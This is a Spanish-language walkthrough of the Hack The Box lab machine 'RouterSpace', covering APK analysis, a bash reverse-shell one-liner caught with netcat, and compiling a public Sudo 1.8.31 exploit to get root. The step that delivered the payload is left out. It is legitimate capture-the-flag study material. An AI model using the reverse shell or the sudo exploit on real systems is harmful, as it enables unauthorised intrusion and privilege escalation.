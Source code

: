 10.10.11.148
------------


RouterSpace:

Tenemos el puerto 22 (ssh) y el 80 (http) abiertos (utilize un script en bash)
El wahtweb nos reporta lo siguiente:
```console
http://10.10.11.148 [200 OK] Bootstrap, HTML5, IP[10.10.11.148], JQuery[1.12.4], Modernizr[3.5.0.min], Script, Title[RouterSpace], UncommonHeaders[x-cdn], X-Powered-By[RouterSpace], X-UA-Compatible[ie=edge]
```
La web (RouterSpace) nos ofrece una aplicacion, el resto de cosas no son funcionales (enlace de contacto, 
subscripcion...)

El fuzzing de rutas no funciona ta que pone "Suspicious Activity Detected..."

Nos descargamos la apk, hoy daremos pentesting android.
La herramienta apktool permite desempaquetar la app para ver su codigo.

```console
└─$ apktool d RouterSpace2.apk
```

Una apk tiene como estructura datos en XML (metadatos) y codigo ensamblado smali (lenguaje ensamblador 
especifico de android).

Hay un archivo que suele contener informacion critica: 
```console
└─$ cat ./res/values/strings.xml | grep -oE ">.*?<" --color=none | tr -d "<>";
```
Pero no he dado con nada interesante. He hecho un grepeo recursivo con palabras clave como password o el nombre de
la maquina ```grep -rIE "routerspace|password"``` pero tampoco hay suerte.

El codigo smali es muy dificil de interpretar, el codigo principal esta en un archivo llamadp MainActivity
```console
└─$ find ./ -name "Main*" 
./smali/com/routerspace/MainActivity.smali
```
Hay un desamblador llamado jadx (se corre con el comando ```jadx-gui```), es similar al ghidra y nos permite leer
en codigo java todo esto, pero tampoco encontre por ahi.

Lo unico que queda es correr la apk en un emulador y analizar su comportamiento, como se llama Routerspace tiene
que ver con cosas de redes.

Para hacer que el anbox tenga conectividad hay que bajarse un [script](https://raw.githubusercontent.com/anbox/anbox/master/scripts/anbox-bridge.sh) y ejecutarlo como root.
```sudo bash bridge.sh```

```
└─$ /snap/bin/anbox launch --package=org.anbox.appmgr --component=org.anbox.appmgr.AppViewActivity
└─$ adb shell settings put global http_proxy 10.10.14.16:8001;
```

```console
└─$ sudo nc -6nlvp 443 
bash -c 'bash -i >& /dev/tcp/dead:beef:2::100e/443 0>&1'
```

- SUIDs -> /usr/bin/sudo 
- Capabilities -> /usr/bin/node = cap_net_bind_service+ep

```console
paul@routerspace:/tmp$ sudo --version
Sudo version 1.8.31

└─$ git clone https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit
└─$ cd Sudo-1.8.31-Root-Exploit


paul@routerspace:/tmp$ nano exploit.c
paul@routerspace:/tmp$ nano shellcode.c
paul@routerspace:/tmp$ nano Makefile
paul@routerspace:/tmp$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
paul@routerspace:/tmp$ ./exploit
# bash
root@routerspace:/tmp#


```

